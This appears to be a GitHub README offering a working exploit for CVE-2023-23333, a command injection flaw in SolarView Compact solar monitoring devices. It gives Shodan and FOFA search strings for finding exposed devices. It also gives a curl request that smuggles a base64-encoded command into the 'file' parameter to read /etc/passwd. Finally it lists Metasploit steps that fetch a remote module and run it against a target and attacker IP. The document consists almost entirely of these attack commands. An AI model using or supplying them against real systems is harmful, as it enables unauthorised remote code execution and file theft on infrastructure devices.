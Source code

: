 # CVE-2023-23333

![](https://img.shields.io/static/v1?label=Product&message=SolarView%20Compact&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=%3C%3Dver%206.00&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Command%20Injection&color=red)


- Shodan dork:
```
http.html:"SolarView Compact"
```
- FOFA dork:
```
body="SolarView Compact"
```
### Curl PoC
```
echo -n 'cat /etc/passwd' | base64

Y2F0IC9ldGMvcGFzc3dkCg
```
```
curl http://target.com/downloader.php?file=;echo%20Y2F0IC9ldGMvcGFzc3dkCg==|base64%20-d|bash%00.zip | grep root:.*:0:0
```

### Metasploit-Framework
```
wget https://raw.githubusercontent.com/getdrive/PoC/main/2023/SolarView_Compact/solarview_compact.rb
```
```
cp solarview_compact.rb /usr/share/metasploit-framework/modules/exploits/linux/http/solarview_unauth_rce_cve_2023_23333.rb
```
```
msfdb reinit; msfconsole -q
```
```
use exploit/linux/http/solarview_unauth_rce_cve_2023_23333.rb
```
```
set rhost target_ip
```
```
set lhost attacker_ip
```
```
run
```

